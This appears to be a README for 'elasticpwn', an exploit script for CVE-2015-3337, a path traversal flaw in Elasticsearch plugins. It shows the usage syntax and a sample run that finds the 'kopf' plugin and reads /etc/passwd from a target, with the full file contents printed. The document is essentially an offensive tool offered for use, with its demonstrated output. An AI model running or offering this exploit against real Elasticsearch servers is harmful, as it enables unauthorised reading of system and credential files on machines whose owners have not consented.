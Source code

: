 # elasticpwn
Script for ElasticSearch url path trasversal vuln. CVE-2015-3337

[crg@segfault ~]$ ./elasticpwn.py
!dSR ElasticPwn - for CVE-2015-3337

Ex: ./elasticpwn.py www.example.com /etc/passwd

[crg@segfault ~]$ ./elasticpwn.py elasticsearch-test /etc/passwd
!dSR ElasticPwn - for CVE-2015-3337

[*] Trying to find plugin test:
[-]  Not Found
[*] Trying to find plugin kopf:
[+] Plugin found!
	[*] Trying to retrieve /etc/passwd:

HTTP/1.0 200 OK
Content-Type:
Content-Length: 1530

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
puppet:x:103:108:Puppet configuration management daemon,,,:/var/lib/puppet:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
nslcd:x:105:109:nslcd name service LDAP connection daemon,,,:/var/run/nslcd/:/bin/false
postfix:x:106:111::/var/spool/postfix:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
_lldpd:x:108:113::/var/run/lldp
